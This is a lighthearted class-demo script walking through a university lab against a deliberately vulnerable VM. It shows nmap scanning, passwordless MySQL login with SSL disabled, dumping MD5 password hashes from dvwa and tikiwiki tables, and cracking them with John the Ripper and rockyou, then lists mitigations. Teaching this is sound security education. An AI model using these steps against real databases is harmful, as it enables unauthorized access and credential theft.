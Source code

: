 # Cryptographic Attacks Demo Walkthrough

This document provides a brief walkthrough for a class demo based on the lab report "[Lab 2: Cryptographic Attacks: Cracking Weak Password Hashes and Exploiting Poor Authentication in Databases.](/Cryptography-Class/Assessments/2-Lab-Works/Lab-Work-2/readme.md)" The demo is designed to be humorous and appealing to a Gen Z audience while remaining professional, with an estimated duration of 8-10 minutes.

## Introduction (1 minute)

Hey class, welcome to our demo on Lab 2: Cryptographic Attacks! Today, we’re diving into the world of ethical hacking. We’ll scan databases, crack weak passwords, and learn how to secure systems—all in a fun, legal way. Think of us as cyber detectives solving a digital mystery. Ready? Let’s go!

## Service Enumeration and Initial Access (2 minutes)

First, we need to scope out our target, like using digital binoculars. We use a tool called `nmap` to scan for database services on the target IP (192.168.109.131) and for the username we use [common database username](/Cryptography-Class/Notes/Others/Database%20Notes.md#common-database-usernames). The command is:

```sh
  ┌──(adamriezqie㉿NWS23010043)-[~]
  └─$ nmap -sV -p 1433,1521,3306,5432,27017 192.168.109.131
  Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-25 04:24 +08
  Nmap scan report for 192.168.109.131
  Host is up (0.00050s latency).

  PORT      STATE  SERVICE    VERSION
  1433/tcp  closed ms-sql-s
  1521/tcp  closed oracle
  3306/tcp  open   mysql      MySQL 5.0.51a-3ubuntu5
  5432/tcp  open   postgresql PostgreSQL DB 8.3.0 - 8.3.7
  27017/tcp closed mongod
  MAC Address: 00:0C:29:3C:0A:2B (VMware)

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 6.43 seconds
  ```

> This reveals MySQL running on port 3306 and PostgreSQL on port 5432.

When we try to connect, it’s like the database says, “Prove yourself!” But we hit SSL/TLS errors.
 ```bash
    ┌──(adamriezqie㉿NWS23010043)-[~]
    └─$ mysql -h 192.168.109.131 -u root -p             
    Enter password: 
    ERROR 2026 (HY000): TLS/SSL error: wrong version number
 ```

**Solution:** Disable SSL in the client using the legacy-compatible option:
  ```
  ┌──(adamriezqie㉿NWS23010043)-[~]
  └─$ mysql -h 192.168.109.131 -u root -p --ssl=0
  Enter password: 
  Welcome to the MariaDB monitor.  Commands end with ; or \g.
  Your MySQL connection id is 33
  Server version: 5.0.51a-3ubuntu5 (Ubuntu)
  
  Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
  
  Support MariaDB developers by giving a star at https://github.com/MariaDB/server
  Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
  
  MySQL [(none)]> show DATABASES;
  +--------------------+
  | Database           |
  +--------------------+
  | information_schema |
  | dvwa               |
  | metasploit         |
  | mysql              |
  | owasp10            |
  | tikiwiki           |
  | tikiwiki195        |
  +--------------------+
  7 rows in set (0.005 sec)
  
  MySQL [(none)]> 
  ```


## User Enumeration and Authentication Weakness (2 minutes)

Now, in MySQL, we check the `user` table to see who’s got access. We run:

```sql
use mysql;
SELECT User, Password FROM user;
+------------------+----------+        
| User             | Password |
+------------------+----------+
| debian-sys-maint |          |
| root             |          |
| guest            |          |
+------------------+----------+
3 rows in set (0.001 sec)

MySQL [mysql]> 
```

Shockingly, users like `root` and `guest` have *no passwords*! It’s like finding a treasure chest without a lock. We test this by logging in:

```bash
mysql -h 192.168.109.131 -u guest -p --ssl=0
```

No password needed—yikes! This isn’t a cryptographic issue per se, but it’s a massive security fail, like posting your address online and saying, “Come on in!”

## Password Hash Discovery and Identification (2 minutes)

Next, we hunt for password hashes in databases like `dvwa` and `tikiwiki195`. In `dvwa`, we run:

```sql
use dvwa;
select * from users;
```

We find hashes like `5f4dcc3b5aa765d61d8327deb882cf99`. In `tikiwiki195`, we use:

```sql
use tikiwiki195;
select userId, login, password, hash from users_users;
```

We get another hash: `f6fdffe48c908deb0f4c3bd36c032e72`. Using `hash-identifier`, we confirm these are MD5 hashes. MD5 is super outdated, like using a flip phone in 2025—easy to crack and not secure.

## Offline Hash Cracking (2 minutes)

Time to crack those hashes! We save them in `hashes.txt` and use `john the ripper`, which sounds like a horror movie villain but is actually a password-cracking tool. The command is:

```bash
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

In seconds, we crack passwords like `password`, `abc123`, and `letmein`. This shows why weak passwords are a hacker’s dream. It’s like using “1234” as your phone passcode—don’t do it!

## Cryptographic Analysis and Mitigation (1 minute)

Let’s recap the issues: no passwords for some users, weak MD5 hashing, and unencrypted connections. To fix this, we need:
- **Strong passwords**: Treat them like your Netflix account—unique and complex.
- **Better hashing**: Use algorithms like bcrypt or Argon2, not MD5.
- **Secure connections**: Enable SSL/TLS to encrypt data.

These steps make our databases Fort Knox-level secure.

## Conclusion (1 minute)

That’s a wrap! We scanned databases, found weak spots, cracked passwords, and learned how to lock things down. Understanding these attacks helps us build stronger defenses. Thanks for joining, and keep your passwords strong—like your Wi-Fi signal!
